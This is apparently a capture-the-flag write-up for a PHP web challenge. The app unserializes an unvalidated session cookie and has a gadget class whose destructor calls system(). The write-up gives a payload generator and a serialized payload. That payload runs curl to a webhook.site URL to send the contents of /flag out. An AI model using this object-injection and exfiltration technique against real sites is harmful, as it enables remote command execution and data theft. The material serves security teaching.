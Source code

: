 # Underrated

## Summary

Flag: `UAD360{L0v3_th1s_s3r13!}`

Description: Now you can save your favorite series, which one is yours?

## Write-up

Here is the source code of the website:

```html
<!DOCTYPE html>
<html>
    <head>
        <title>ToWatch</title>
    </head>
    <body>
        <!-- /?debug -->
        <h1>Pick your favourite series</h1>
        <form method="POST">
            <input type="text" name="name">
            <input type="submit" name="submit"/>
        </form>
    </body>
</html>
```

Accesing the endpoint `/?debug` we can now see the backend source code:

```php
<?php

class Gadget{
    public $cmd = 'whoami';
    public function __destruct() {
        system($this->cmd);
    }
}

if (isset($_GET['debug'])) {
    highlight_file(__FILE__);
    exit;
}

if (!isset($_COOKIE['session'])) {
    $series = [];
    setcookie("session", serialize($series));
} else {
    $series = unserialize($_COOKIE['session']);
}


if (isset($_POST['submit']) && isset($_POST['name'])) {
    $series[] = $_POST['name'];
    setcookie("session", serialize($series));
}

?>

<!DOCTYPE html>
<html>
    <head>
        <title>ToWatch</title>
    </head>
    <body>
        <!-- /?debug -->
        <h1>Pick your favourite series</h1>
        <form method="POST">
            <input type="text" name="name">
            <input type="submit" name="submit"/>
        </form>

        <?php

            foreach($series as $name) { 
                echo "<p>" . $name . "<p/>";
            }
        ?>
    </body>
</html>
```

From the official php documentation about [`unserialize`](https://www.php.net/manual/es/function.unserialize.php):

![unserialize warning](img/unserialize.png)

Session cookie is not validated, so we can create arbitrary php objects and abuse `unserialize`. Luckily, we have `Gadget` class available that will execute arbitrary commands when there are no more references to the instance.

We can create a small PHP script to generate the payload:

```php
<?php

class Gadget{
    public $cmd = 'curl https://webhook.site/5b235ac2-f2cf-4d55-b628-c85783b74db4/?flag=`cat /flag`';
    public function __destruct() {
        system($this->cmd);
    }
}

$gadget = new Gadget();

echo serialize($gadget);
?>
```

The payload would look something like this:
```
O:6:"Gadget":1:{s:3:"cmd";s:80:"curl https://webhook.site/5b235ac2-f2cf-4d55-b628-c85783b74db4/?flag=`cat /flag`";}
```

Finally, we set the session cookie with the payload url encoded.